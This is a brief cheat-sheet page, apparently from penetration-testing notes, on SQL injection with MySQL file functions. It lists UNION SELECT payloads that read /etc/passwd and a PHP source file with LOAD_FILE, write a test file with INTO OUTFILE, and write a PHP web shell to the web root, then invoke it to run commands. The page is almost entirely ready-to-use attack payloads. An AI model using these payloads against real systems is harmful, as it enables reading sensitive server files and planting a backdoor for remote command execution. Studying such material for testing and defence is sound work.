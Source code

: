 SQL Load file
##############

Description
************

from our previous example, you can load any file into the output as long
as the database user has access to the file on the server.

Example 1:

.. code-block:: console

   cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

Example 2:

.. code-block:: console

   cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -

If the secure_file_priv is set you can also write files to the server

Example:

.. code-block:: console

   cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -

or:

Example 2:

.. code-block:: console

   cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

And then request shell.php?0=id
